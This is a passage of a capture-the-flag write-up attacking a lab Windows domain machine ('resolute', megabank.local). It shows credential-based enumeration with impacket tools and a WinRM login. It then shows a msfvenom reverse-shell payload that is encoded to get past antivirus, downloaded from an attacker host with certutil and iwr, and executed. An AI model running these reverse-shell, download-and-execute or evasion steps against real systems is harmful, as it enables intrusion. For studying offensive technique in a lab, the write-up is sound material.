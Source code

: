 ```sh
❯ impacket-Get-GPPPassword 'megabank.local/melanie:Welcome123!@resolute'
# none found

# check kerberoastable accounts
❯ impacket-GetUserSPNs -request -outputfile kerberoast.hash -dc-ip resolute 'megabank.local/melanie:Welcome123!'
No entries found!

# check AS-REP roastable accounts
❯ impacket-GetNPUsers -request -outputfile asreproast.hash -dc-ip resolute 'megabank.local/melanie:Welcome123!'
No entries found!

# check WinRM access
❯ cme winrm resolute -u melanie -p 'Welcome123!'
WINRM       resolute        5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

Nice, she has WinRM access. Let's log in.

```sh
❯ evil-winrm -i resolute -u melanie -p 'Welcome123!'
```

And that gives us a shell!

## privesc

First, upgrade the shell to a more stable reverse shell.

```sh
# create reverse shell binary, host it, and start listener
❯ msfvenom -p windows/shell_reverse_tcp -f exe -o rsh.exe lport=443 lhost=tun0
❯ python3 -m http.server 80
❯ rlwrap nc -lvnp 443

# on victim, download
*Evil-WinRM* PS C:\Users\melanie\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
At line:1 char:1
+ certutil -urlcache -split -f http://10.10.14.8/rsh.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

Whoa! Looks like we have antivirus software to deal with. Let's try using an encoder to obfuscate the malware.

```sh
# encode new reverse shell
❯ msfvenom -p windows/shell_reverse_tcp -f exe -o rsh.exe lport=443 lhost=tun0 -e x86/shikata_ga_nai -i 9

# try download again
C:\Users\melanie\Documents> certutil -urlcache -split -f http://10.10.14.8/rsh.exe
# same error

# maybe certutil is blocked, try another way
*Evil-WinRM* PS C:\Users\melanie\Documents> iwr "http://10.10.14.8/rsh.exe" -out C:\Users\melanie\Documents\rsh.exe
# success

# execute
*Evil-WinRM* PS C:\Users\melanie\Documents> C:\Users\melanie\Documents\rsh.exe
```
